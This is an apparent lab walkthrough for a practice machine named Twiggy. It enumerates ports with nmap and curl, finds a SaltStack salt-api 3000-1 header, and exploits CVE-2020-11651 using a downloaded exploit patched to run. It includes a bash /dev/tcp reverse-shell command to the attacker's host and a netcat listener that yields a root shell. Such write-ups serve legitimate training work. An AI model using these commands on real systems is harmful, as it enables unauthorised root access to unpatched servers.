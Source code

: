 ____

# Exploitation Guide for Twiggy

## Summary

We'll gain access to this target by exploiting a pre-auth RCE vulnerability on a SaltStack master, which will grant us command execution on the master by creating a runner of `salt.cmd` with a `cmd.exec_code` function.

## Enumeration

### Nmap

Let's begin with a simple `nmap` scan.

```
kali@kali:~$ sudo nmap -p- 192.168.120.121  
Nmap scan report for 192.168.120.121
Host is up (0.0011s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
4505/tcp open  unknown
4506/tcp open  unknown
8000/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 105.30 seconds
```

This indicates ports 4505 and 4506 are open. Let's run a more detailed scan.

```
kali@kali:~$ sudo nmap -p 4505,4506 192.168.120.121 -sV
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-21 15:21 EST
Nmap scan report for 192.168.120.121
Host is up (0.030s latency).

PORT     STATE SERVICE VERSION
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
```

These are default ports for `ZeroMQ`.

### Curl

Next, we'll run `curl` in verbose mode against port 8000.

```
kali@kali:~$ curl http://192.168.120.121:8000 -v
*   Trying 192.168.120.121:8000...
* Connected to 192.168.120.121 (192.168.120.121) port 8000 (#0)
> GET / HTTP/1.1
> Host: 192.168.120.121:8000
> User-Agent: curl/7.72.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.16.1
< Date: Mon, 21 Dec 2020 20:36:04 GMT
< Content-Type: application/json
< Content-Length: 146
< Connection: keep-alive
< Access-Control-Expose-Headers: GET, POST
< Vary: Accept-Encoding
< Allow: GET, HEAD, POST
< Access-Control-Allow-Credentials: true
< Access-Control-Allow-Origin: *
< X-Upstream: salt-api/3000-1
< 
* Connection #0 to host 192.168.120.121 left intact
{"clients": ["local", "local_async", "local_batch", "local_subset", "runner", "runner_async", "ssh", "wheel", "wheel_async"], "return": "Welcome"}
```

The response contains an interesting header, revealing that a SaltStack Rest API is listening on that port:

```
 X-Upstream: salt-api/3000-1
```

## Exploitation

### CVE-2020-11651

Based on the version listed in the header (`3000-1`) we discover an [available remote code execution exploit](https://github.com/dozernz/cve-2020-11651).

Once we download the exploit, we discover that `salt` doesn't support Python 3.8 and Kali won't let us install packages under Python 3.7. Let's tweak the exploit to address this issue.

```
kali@kali:~$ python3 -m venv env
...
kali@kali:~$ . ./env/bin/activate
(env) kali@kali:~$ pip install distro salt
...
(env) kali@kali:~$ sed -i 's/from platform import _supported_dists//' ./env/lib/python3.8/site-packages/salt/grains/core.py
(env) kali@kali:~$ sed -i 's/_supported_dists +=/_supported_dists =/' ./env/lib/python3.8/site-packages/salt/grains/core.py
```

Now we can start a netcat listener on port 4505 and launch the exploit.

```
(env) kali@kali:~/machines/twiggy$ python3 exploit.py 192.168.120.121 master 'bash -i >& /dev/tcp/192.168.118.2/4505 0>&1'
/home/kali/env/lib/python3.8/site-packages/salt/ext/tornado/httputil.py:107: DeprecationWarning: Using or importing the ABCs from 'collections' instead of from 'collections.abc' is deprecated since Python 3.3, and in 3.9 it will stop working
  class HTTPHeaders(collections.MutableMapping):
Attempting to ping master at 192.168.120.121
Retrieved root key: 8tnPuz4Fk+nH4c2CVW3/1BBbWofubqMZGJ1gkEkiB6WzlnyqQ7muDw3dbtKNwTMjUU6IcNFD9VY=
Got response for attempting master shell: {'jid': '20200518074808085260', 'tag': 'salt/run/20200518074808085260'}. Looks promising!
```

This grants us a reverse shell as root.

```
kali@kali:~$ nc -lvp 4505
listening on [any] 4505 ...
192.168.120.121: inverse host lookup failed: Unknown host
connect to [192.168.118.2] from (UNKNOWN) [192.168.120.121] 33584
bash: no job control in this shell
[root@localhost root]# id
id
uid=0(root) gid=0(root) groups=0(root)
```


